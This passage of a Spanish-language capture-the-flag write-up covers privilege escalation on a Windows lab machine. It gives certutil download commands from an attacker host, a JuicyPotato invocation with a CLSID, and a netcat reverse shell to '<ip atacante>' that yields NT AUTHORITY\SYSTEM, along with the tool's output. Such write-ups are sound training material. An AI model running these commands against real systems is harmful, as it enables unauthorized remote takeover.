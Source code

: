 ## Escalada de privilegios

Si vemos nuestros privilegios con `whoami /priv` veremos que tenemos `SetImpersonatePrivilege`. Esto quiere decir que es vulnerable a JuicyPotato.

En mi caso lo descargué desde [ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).

Ahora hay que transferir `nc.exe` y `JuicyPotato.exe` a la máquina víctima. Para ellos nos movemos a `c:\windows\temp\privesc` para que no haya problemas de permisos. 

Nos ponemos en escucha por el servicio *http* con python en la carpeta donde se encuentran los dos ejecutables:

```bash
sudo python3 -m http.server 80
```

<br/>

Y los descargamos desde la máquina víctima con `certutil.exe`:

```cmd
certutil.exe -f -urlcache -split http://<ip_atacante>/nc.exe nc.exe
certutil.exe -f -urlcache -split http://<ip_atacante>/JuicyPotato.exe JuicyPotato.exe
```
<br/>

Una vez con los ejecutables en la máquina víctima, nos ponemos en escucha en la máquina atacante para entablar otra *reverse shell* (en mi caso usaré el puerto **4321**):

```bash
sudo rlwrap nc -nlvp 4321
```
<br/>

Para ejecutar en este caso correctamente el JuicyPotato debemos de consultar la versión de windows y cuál es su [CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md).

Y ahora usamos el `JuicyPotato.exe` en la máquina víctima:

```cmd
c:\Windows\Temp\privesc>JuicyPotato.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334} -l 4443 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd <ip atacante> 4321"
JuicyPotato.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334} -l 4443 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd <ip atacante> 4321"
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 4443
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
<br/>

> El CLSID es el valor `-c {e60687f7-01a1-40aa-86ac-db1cbf673334}`

Habiendo hecho esto, seremos `NT AUTHORITY\SYSTEM` y podemos obtener la flag de `user.txt`:
